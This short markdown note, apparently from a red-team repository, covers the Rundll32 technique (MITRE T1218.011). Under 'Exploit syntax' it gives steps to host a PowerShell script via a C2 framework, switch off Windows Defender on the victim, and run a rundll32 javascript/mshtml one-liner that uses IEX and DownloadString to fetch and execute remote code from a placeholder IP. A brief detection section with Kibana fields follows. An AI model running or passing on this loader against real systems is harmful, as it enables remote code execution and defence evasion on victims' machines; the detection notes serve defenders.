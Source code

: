 # [Rundll32](https://attack.mitre.org/techniques/T1218/011/)

## Exploit syntax:

1. Create a powershell script and save it to /tmp/christBeaver.txt

2. In posh run:
    ```
    add-hosted-file
    
    /tmp/christBeaver.txt

    /text

    text/html
    
    N
    ```

3. Ensure Windows Defender 'Real-time protection' is turned off on the victim machine within the settings

4. On your beacon, add the malicious IP and run:
    ```
    sharpps rundll32.exe 'javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString(''http://<IP address>/text'');")'
    ```

## Detection Technique:
* Investigate uses of rundll32 to start non typical processes such as cmd/powershell or to access non typical dlls.
* Kibana:
    * process.name: powershell.exe
    * process.parent.name: rundll32.exe
---

## Resource
* https://lolbas-project.github.io/lolbas/Binaries/Rundll32/1`